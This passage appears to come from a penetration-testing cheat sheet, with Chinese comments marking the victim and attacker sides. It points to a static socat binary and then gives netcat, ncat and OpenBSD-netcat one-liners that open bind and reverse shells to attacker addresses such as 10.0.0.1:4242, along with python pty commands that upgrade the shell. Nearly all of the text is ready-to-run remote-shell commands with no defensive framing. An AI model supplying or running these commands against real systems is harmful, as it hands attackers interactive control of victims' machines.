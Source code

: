 Static socat binary can be found at [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

**nc**
- **bind shell**
    ```bash
    # 被控端
    nc -lvp 4444 -e cmd.exe     # win
    nc -lvp 4444 -e /bin/bash   # linux

    # 攻击端
    nc -nv 192.168.30.35 4444

    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    ```

- **reverse shell**
    ```bash
    # 被控端
    nc -nv 192.168.30.35 4444 -e /bin/bash

    # 攻击端
    nc -lvp 4444

    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    ```

**ncat**
```bash
# 被控端
ncat lvp 4444 -e cmd.exe --allow 192.168.30.5 --ssl

# 攻击端
ncat -v 192.168.30.35 4444 --ssl
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

**Netcat Traditional**
```bash
nc -e /bin/sh 10.0.0.1 4242
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242
```

**Netcat OpenBsd**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```
